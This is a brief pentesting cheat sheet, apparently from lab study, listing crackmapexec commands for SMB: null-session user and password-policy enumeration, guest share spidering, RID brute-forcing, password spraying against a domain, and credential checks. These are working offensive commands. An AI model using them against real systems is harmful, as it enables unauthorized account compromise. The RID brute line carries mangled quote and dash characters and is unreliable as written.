 #smb #bruteforce
Enumerate SMB Information `crackmapexec smb 10.129.204.177`
Enumerate Users `crackmapexec smb 10.129.204.177  -u '' -p '' --users`
Enumerate password policies `crackmapexec smb 10.129.204.177  -u '' -p '' --pass-pol`
Enumerate SMB Shares `crackmapexec smb 10.129.29.43  -u guest -p '' --shares`
Show al folders in the IT share `crackmapexec smb 10.129.203.121 -u guest -p '' --spider IT --regex .`
RID Bruteforce ``crackmapexec smb 10.0.2.8 -u ‘guest’ -p ‘’ — rid-brute``
Password Spraying `crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success`
 Check credentials `crackmapexec smb 192.168.156.76 -u pete -p 'Nexus123!' -d corp.com`
